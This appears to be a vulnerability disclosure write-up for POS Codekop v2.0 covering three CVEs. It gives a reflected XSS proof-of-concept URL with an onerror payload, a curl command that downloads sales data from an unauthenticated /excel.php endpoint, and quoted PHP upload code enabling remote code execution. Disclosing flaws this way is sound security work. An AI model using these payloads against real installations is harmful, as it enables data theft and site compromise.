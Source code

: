 PoC:
```
http://localhost/labs/pos-kasir/print.php?nm_member=%27/%3E%3Cimg%20src=x%20onerror=alert(1)%20/%3Eaa
```
I also provide a video about how to exploit this vulnerability.
- [**POS Codekop v2.0 Unauthenticated Reflected Cross-Site Scripting**](https://www.youtube.com/watch?v=bbbA-q1syrA)

## CVE-2023-36347 - Broken Authentication

Vulnerability Summary:

| Parameter   | Value |
| ------------| ------------|
| CVE ID | [CVE-2023-36347](https://www.cve.org/CVERecord?id=CVE-2023-36347) |
| Classification | Broken Access Control |
| Description | Missing authentication at /excel.php endpoint, could allow attacker to download selling data without authentication. |
| Required privilege | Unauthenticated |
| Affected Version | v2.0 (#0~gitebc5c29) |

PoC: 
```bash 
curl http://localhost/research/pos-kasir-php/excel.php
```

I also provide a video about how to exploit this vulnerability.
- [**POS Codekop v2.0 Broken Authentication**](https://www.youtube.com/watch?v=7qaIeE2cyO4)

## CVE-2023-36348 - Authenticated RCE

Vulnerability Summary:

| Parameter   | Value |
| ------------| ------------|
| CVE ID | [CVE-2023-36348](https://www.cve.org/CVERecord?id=CVE-2023-36348) |
| Classification | Remote code execution |
| Description | The application does not sanitize the `filename` parameter when sending data to `/fungsi/edit/edit.php?gambar=user`. An attacker can exploit this issue by uploading a PHP file and accessing it, leading to Remote Code Execution. |
| Required privilege | Authenticated |
| Affected Version | v2.0 (#0~gitebc5c29) |

Vulnerable code:
```php
if ($_FILES['foto']["error"] > 0) {
      $output['error']= "Error in File";
  } elseif (!in_array($_FILES['foto']["type"], $allowedImageType)) {
      echo '<script>alert("You can only upload JPG, PNG and GIF file");window.location="../../index.php?page=user"</script>';
  } elseif (round($_FILES['foto']["size"] / 1024) > 4096) {
      echo '<script>alert("WARNING !!! Besar Gambar Tidak Boleh Lebih Dari 4 MB");window.location="../../index.php?page=user"</script>';
  } else {
      $dir = '../../assets/img/user/';
      $tmp_name = $_FILES['foto']['tmp_name'];
      $name = time().basename($_FILES['foto']['name']);
      if (move_uploaded_file($tmp_name, $dir.$name)) {
          $foto2 = $_POST['foto2'];
--------------------
```
